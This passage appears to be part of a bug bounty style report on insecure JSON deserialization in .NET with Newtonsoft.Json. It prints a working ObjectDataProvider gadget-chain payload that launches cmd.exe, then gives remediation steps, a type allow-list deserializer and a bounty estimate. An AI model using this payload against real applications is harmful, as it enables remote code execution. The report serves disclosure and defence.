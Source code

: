 ```csharp
};
var result = JsonConvert.DeserializeObject(maliciousJson, settings);
// This could execute calc.exe on Windows

// Advanced Payload for .NET Gadget Chain:
string advancedPayload = @"{
    ""$type"": ""System.Windows.Data.ObjectDataProvider, PresentationFramework"",
    ""MethodName"": ""Start"",
    ""ObjectInstance"": {
        ""$type"": ""System.Diagnostics.Process, System""
    },
    ""MethodParameters"": {
        ""$type"": ""System.Collections.ArrayList"",
        ""$values"": [
            ""cmd.exe"",
            ""/c echo pwned > c:\temp\pwned.txt""
        ]
    }
}";

// REMEDIATION:
// 1. Never use TypeNameHandling.All with untrusted input
// 2. Use allow-lists for deserialization
// 3. Implement custom JsonConverter with type validation
// 4. Use System.Text.Json instead of Newtonsoft.Json for better security

// Safe Deserialization:
public class SafeDeserializer
{
    private static readonly string[] AllowedTypes = { "MyApp.Models.User", "MyApp.Models.Product" };

    public T SafeDeserialize<T>(string json) where T : class
    {
        var settings = new JsonSerializerSettings()
        {
            TypeNameHandling = TypeNameHandling.None,  // Disable type name handling
            SerializationBinder = new SafeSerializationBinder(AllowedTypes)
        };
        return JsonConvert.DeserializeObject<T>(json, settings);
    }
}

```

**Remediation:**
Use secure serialization methods, validate input types

**Bug Bounty Assessment:**
- **Estimated Value:** $15,000 - $40,000
- **Likelihood:** Very High
- **Justification:** CRITICAL severity deserialize_vuln vulnerability in .NET Core
